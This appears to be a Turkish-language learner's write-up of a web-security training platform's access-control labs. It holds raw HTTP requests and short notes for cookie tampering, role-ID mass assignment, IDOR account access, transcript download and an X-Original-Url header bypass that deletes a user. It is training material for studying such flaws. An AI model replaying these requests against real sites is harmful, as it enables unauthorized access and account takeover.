 
## Lab 1 
`robots.txt` dosyası içerisinde `administrator-panel` izinli olmadığını göstermiş ancak bu bilgi sızıdırılmış şifre bile yok 

## Lab2
Sayfa kaynağı :
```html
<script>
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-llr373');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}
</script>
```

## Lab 3 

```http
GET /admin HTTP/2
Host: 0a8b009f04c396ba81d6162b007300ba.web-security-academy.net
Cookie: Admin=false; session=yktHjGrR42jMMST3p7ZywVndanq6zNVL
```
Admin true yap

## Lab 4

userid = 2 olarak değiştirmemi istiyor admin olablimek için 
e mail değiştirirken böyle bir cevap dönüyor 2 olarak değiştirip tekrar attığım zaman roleid 2 oluyorum
```json
{
"username": "wiener",
  "email": "adss@gmail.com",
  "apikey": "IZbhbnA1q2pbxpnNtKh3Vu7er0F3keTA",
  "roleid": 2
}
```

## Lab 5 
IDOR
```
https://0a9200ae04f7e268ab20ca96008d0054.web-security-academy.net/my-account?id=carlos
```

## Lab 6 
IDOR ama bu sefer diğer hesabların id sini farklı blog postları üzerinden bulabiliyorsun.

## Lab 7 
id değeri değiştirilip yollandığında redirect ederken 
```http
GET /my-account?id=carlos HTTP/2
Host: 0ab900000449707882aca266000b001c.web-security-academy.net
Cookie: session=HrgBiP2p94JFN510xAgWbqnWHRe9ZZcB
```
redirect edilirken bilgi sızdırılıyor.

```html
<div id=account-content>
 <p>Your username is: carlos</p>
<div>Your API Key is: FhvGGrhphf2VWG1hMWQ5xB5WmAxRGtG1</div>
```


## Lab 8 
IDOR var ve buradan şifreyi alabiliyoruz 

## Lab 9 
bu şekilde chat geçmişini indirdim burada şifresini yazmış eleman
```http
GET /download-transcript/1.txt HTTP/2
Host: 0afc00e503d0f625861fda2d00c6001c.web-security-academy.net
Cookie: session=1DICa1UimRY9VjLUoQBUe91uwEuyDVaY
```


## Lab 10 

```http
POST / HTTP/2
Host: 0a980019033822ca80124e4c008d005b.web-security-academy.net
X-Original-Url: /admin/delete?username=carlos
Content-Length: 15

username=carlos
```
